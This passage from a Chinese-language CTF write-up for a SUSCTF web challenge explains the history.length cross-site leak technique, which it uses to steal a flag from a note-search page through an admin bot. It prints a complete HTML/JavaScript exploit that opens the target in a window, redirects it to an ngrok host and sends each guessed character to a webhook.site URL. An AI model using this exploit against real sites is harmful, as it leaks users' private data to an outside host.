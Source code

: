 如果你給 absolute URL，base 會被忽略，所以你可以直接提供任意頁面給 admin bot 去訪問。

再來就是找出如何進行 XS leak 了，我最後用的是在 [history.length](https://xsleaks.dev/docs/attacks/navigations/) 這招，原理很簡單，同個 window 底下，就算連去別的網站，你的 `history.length` 也不會清空，意思就是假設我先到 A 網站，再去 B，再導回來 A，存取 `history.length` 時就會是 3。

所以我們可以用 `var win = window.open` 打開筆記搜尋的頁面，接著在一定時間後用 `win.location = '...'` 的方式把這個 window 導回來自己的網站，就可以用 `win.history.length` 存取到這個值，進而得知重新導向的次數，就可以知道筆記搜尋有沒有成功。

我最後拿來 leak 的腳本長這樣：

``` html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="utf-8">
  <meta name="robots" content="noindex">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <meta http-equiv="X-UA-Compatible" content="ie=edge">
</head>

<body>
    <script>
      var flag = 'SUSCTF{'
      function send(msg) {
        fetch('https://webhook.site/bad84752-95a1-45c4-8395-e5577ea1112b?msg=' + encodeURIComponent(msg))
      }
      function trying(keyword) {
        return new Promise(resolve => {
          var win = window.open('http://123.60.29.171:10001/search?q=' + keyword)
          setTimeout(() => {
            win.location = 'http://e050-220-133-126-220.ngrok.io/non.html'
            setTimeout(() => {
              if (win.history.length === 3) {
                send('success:' + keyword)
              } else {
                //send('fail:' + keyword)
              }
              win.close();
            }, 1000)
          }, 1500)
        })
      }

      async function run() {
        send('start')
        // }abcdefghijklmnopqrstuvwxyz0123456789_
        // }abcdefghijklmnopqrs
        // 
        let chars = '_abcdefghijklmnopqrstuv'.split('')
        //let chars = '}wxyz0123456789_'.split('')
        for(let char of chars) {
          const temp = flag + char
          trying(temp)
        }
      }

      setTimeout(() => {
        run()
      }, 1000)
      
    </script>
</body>
</html>
```